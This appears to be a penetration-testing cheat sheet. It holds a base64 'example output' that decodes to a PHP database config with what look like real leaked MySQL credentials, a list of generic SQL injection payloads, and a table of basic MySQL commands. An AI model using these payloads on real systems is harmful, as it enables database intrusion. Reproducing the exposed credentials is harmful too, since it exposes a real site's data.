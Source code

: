 *example output:*

```
PD9waHAKJGRiX25hbWU9ImJpaHRhcHViX2RiIjsKaWYoJF9TRVJWRVJbIlNFUlZFUl9BRERSIl09PSIxMjcuMC4wLjEiKQoJJGNvbj1teXNxbF9jb25uZWN0KCJsb2NhbGhvc3QiLCJyb290IiwiIik7CmVsc2UKCSRjb249bXlzcWxfY29ubmVjdCgibG9jYWxob3N0IiwiYmlodGFwdWJfYWRtaW4iLCJCUFNAMjAxMyIpOwppZighJGNvbikKCXsKCWRpZSgiRXJyb3IgaW4gY29ubmVjdGlvbiIubXlzcWxfZXJyb3IoKSk7Cgl9Cm15c3FsX3NlbGVjdF9kYigiJGRiX25hbWUiKW9yIGRpZSgiY2Fubm90IHNlbGVjdCBEQiIpOwo/
```

*decode*
```php
<?php
$db_name="bihtapub_db";
if($_SERVER["SERVER_ADDR"]=="127.0.0.1")
   $con=mysql_connect("localhost","root","");
else
   $con=mysql_connect("localhost","bihtapub_admin","BPS@2013");
if(!$con)...
.
.
?>

```

-------------------------------------------------------------------------------------------------------
# SQL injection payload list
`Generic SQL Injection Payloads`
```sql
'
''
' or "
-- or # 
' OR '1
' OR 1 -- -
'or 1=1 -- -
" OR "" = "
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
```
------------------------------------------------------------------------------------------------------
## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h examle.com -P 3306 -p` | login to mysql database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |